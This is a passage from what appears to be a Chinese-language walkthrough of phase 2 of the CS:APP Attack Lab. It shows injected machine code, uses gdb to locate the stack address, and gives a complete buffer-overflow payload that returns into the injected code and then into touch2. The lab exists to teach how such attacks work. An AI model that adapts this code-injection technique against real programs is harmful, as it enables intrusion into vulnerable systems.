 得到的机器码为

```asm
    0:  48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
    7:  c3                      ret
```

将它写入输入字符串中，`40` 字节后加上它的地址（字符数组的地址）与 `touch2` 的地址。

> *如何获取注入指令的地址？*

注意到，输入的字符串也是存在栈中的，在输入完成之后（执行其它指令之前），它的地址就是栈顶地址。

使用 `gdb` 进入程序，在 `getbuf` 时使用 `print $rsp` 便可获得字符串地址。当然，也可以使用 `x/s $rsp` 测试。

![phase2_pic2](./Screenshots/phase2_pic1.png)

得到 `%rsp` 的值，将它加上注入指令在字符串中的位置（偏移量），便得到注入指令的位置，将它放在串的后面。最简单的情况当然就是指令在字符串的开头，地址正是 `%rsp`。

***再次注意小端法！！***

```c
    buf[40] = { /* Phase 2 */
        0x48, 0xC7, 0xC7, 0xFA, 0x97, 0xB9, 0x59, 0xC3, /* 这 8 字节为注入指令 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 32 字节内容任意 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
        0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
    }
```
